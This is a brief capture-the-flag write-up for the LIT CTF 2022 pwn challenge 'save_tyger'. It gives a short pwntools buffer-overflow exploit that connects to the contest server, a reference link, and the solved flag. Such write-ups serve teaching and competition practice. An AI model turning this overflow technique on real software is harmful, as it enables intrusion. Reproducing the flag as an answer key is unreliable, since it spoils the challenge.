 # LIT CTF 2022 – save_tyger

* **Category:** pwn
* **Points:** 500

## Challenge

> Can you save our one and only Tyger?

## Solution

```python
from pwn import *
elf = context.binary = ELF('./save_tyger',checksec=False)
#p = process()
p = remote('litctf.live',31786)

payload = b'A' * 40            # Padding
payload += p64(0xabadaaab)     # value into rdi -> first param

log.info(p.clean())
p.sendline(payload)
p.interactive()
```
More info:</br>
https://ir0nstone.gitbook.io/notes/types/stack/return-oriented-programming/exploiting-calling-conventions
```
LITCTF{y4yy_y0u_sav3d_0ur_m41n_or94n1z3r}
```
